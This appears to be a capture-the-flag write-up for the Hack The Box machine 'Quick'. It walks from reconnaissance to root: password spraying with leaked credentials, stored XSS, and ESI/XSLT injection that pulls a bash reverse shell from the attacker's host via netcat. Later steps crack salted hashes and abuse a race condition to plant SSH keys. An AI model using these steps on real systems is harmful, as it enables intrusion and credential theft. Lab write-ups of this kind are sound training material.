# user:
  - nmap directory for initial scans
  - Only SSH and Port 9001 on top 1000 ports found (9001 is a web server)
  - Website
    - It's a php site
    - There's a portal? (portal.quick.htb), can't seem to connect yet
    - There's a login page, no way to create an account
    - Gobuster to find pages
  - Pages
    - index.php
      - Seems generic, no way of input?
    - search.php
      - Empty
    - home.php
      - Requires login
    - login.php
      - Generic login, no way to create an account
      - Doesn't seem vulnerable to a SQLi (at least sqlmap didn't find anything, but don't rule that out yet)
    - clients.php
      - Seems like a table that's populated by a db
      - I found later (once I had a shell) that it's not, it's static
    - db.php
      - Empty page
    - ticket.php
      - Requires login
    - server-status
      - We can actually view it this time lol
      - Shows requests being redirected to "127.0.1.1:80", reverse proxy?
  - Looks like we need to log in somehow
  - portal.quick.htb leads to a server error. Probably only open on the localhost, which might require an SSH tunnel later (maybe for root?)
  - I reached out to a fellow htb member and they told me to lookup 'quiche github', so I did that and I was able to connect to the portal!
    - I asked how they knew to use that and they said a lot of enum based on name of the box and they "heard the chatter"
  - Using rust quiche client to connect to portal
    - `cargo run --manifest-path=tools/apps/Cargo.toml --bin quiche-client -- --no-verify https://portal.quick.htb/`
    - Found list of emails (/index.php?view=about) - emails.txt
    - Found a password in Connectivity.pdf
  - Creds don't work on login page or SSH, in the pdf it says to connect to ' http://172.15.0.4/quick_login.jsp'
  - Put together a list of potential emails and usernames based off the 'testimonials' section of the landing page and the 'clients.php' to get their country (found in portal/emails.txt)
    - Wrote a script to try all of these emails with the password found in the PDF (brute\_emails.sh)
    - Found creds for elisa@wink.co.uk
  - Ticketing System
    - Still can't see db.php
    - home.php: can query tickets
      - Input a number -> "Please provide a search item"
      - Input a random string -> "0 results"
      - Basic SQLi doesn't work 
      - Sends an XMLHttpRequest to 'search.php?search=*query*'
    - ticket.php is a way to submit a query, looks like it stores it in a DB
      - Submit just a test ticket -> "TKT-6734 raised. We will answer you as soon as possible"
      - Can now query that ticket based on ticket number
      - Vulnerable to a stored XSS (send HTML and it gets rendered onto the page)
      - It comments out PHP code :/
      - We can execute JS with `<iframe src="javascript:alert(`xss`)">`
  - Found [this](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) article previously, but didn't know what to do with it
    - I found this because I noticed the 'X-Powered-By: Esigate' header and did some googling 
    - Since I have something that will get rendered on the page, this is much more useful now
    - Created www/payload.xsl to execute functions based on that article
  - Steps to reproduce:
    - Submit a ticket with 'www/inject.xml' as the body
    - Navigate to '/search.php?search=TKT-*given_ticket*'
    - This will make a request back to our system
    - Because python's SimpleHTTPServer was being difficult, I made a valid response file that netcat will serve back whenever we the search page makes a request to us
      - I hosted the file with SimpleHTTPServer locally and created responses with 'curl -i http://10.10.14.128:8000/payload.xsl > something.req'
      - 'grab\_script.req' will save the script locally to their machine
      - 'run\_script.req' will run the script and give us a reverse shell
    - `nc -nlvvp 8000 < grab_script.req` and then refresh the search page to upload the bash rev shell
    - Setup a new listener on port 4444 with netcat to catch the reverse shell
    - `nc -nlvvp 8000 < run_script.req` and then refresh the search page to catch the rev shell
  - Add your SSH keys to sam's authorized keys
  - user pwned

# root
  - Found the mysql password in /var/www/html/db.php
  - Logged in and found a hash for the passwords of users
  - Hashes are `md5(crypt($password, 'fa'))`
  - Wrote a script to crack it manually (in PHP), since it's double-hashed and has a specific salt (crack/crack.php)
    - Found the password!
  - Can't login anywhere (although it works for the ticketing system)
  - Notice in the /var/www/ there's also a 'jobs' and 'printer' directory
  - Look into the apache config files to see where the 'printer' website is running, since it also accesses that database for logging in and we have a new password :)
  - LocalForward port 80 on their box to 1337 locally and login to the printer site by adding 'printerv2.quick.htb' to the entry in /etc/hosts for '127.0.0.1'
  - Can connect to a printer (just host NC on port 9100) and give it your IP address
  - Looking at the source, we know we're running as srvadm (from apache config files)
  - And there's a race condition (in job.php) where you can use 'tmp/payload' in the 'jobs' directory to create a sym link to srvadm's authorized keys
  - The description you give it for the job will be written to that file (so you can write your public key to srvadm's authorized keys)
  - You gotta be *quick* though, because the filename in the 'jobs' directory is based on the time
  - Now SSH in as srvadm
  - Do a lot of digging through files, enum scripts and found some config in home directory
  - Found this in '.cache/conf.d/printers.conf': 'https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer'
  - URL decode the password "%26 -> &, %3F -> ?" (root\_pw)
  - SSH in as root
  - root pwned
